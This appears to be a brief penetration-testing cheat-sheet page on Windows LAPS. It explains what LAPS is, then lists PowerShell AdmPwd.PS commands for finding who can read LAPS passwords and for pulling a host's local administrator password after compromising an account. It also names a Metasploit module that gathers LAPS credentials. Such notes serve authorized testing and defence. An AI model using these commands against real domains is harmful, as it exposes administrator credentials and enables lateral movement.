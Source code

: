 # LAPS

The "**Local Administrator Password Solution**" (**LAPS**) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

## Enumeration

### AdmPwd.PS

{% embed url="https://github.com/ztrhgf/LAPS/tree/master/AdmPwd.PS" %}

```powershell
# Import module
Import-Module AdmPwd.PS

# Find the OUs that can read LAPS passwords
Find-AdmPwdExtendedRights -Identity <OU>

# Once we have compromised a user that can read LAPS
Get-AdmPwdPassword -ComputerName <Hostname>
```





### Metasploit

```bash
use post/windows/gather/credentials/enum_laps
```







### &#x20; <a href="#enumeration" id="enumeration"></a>
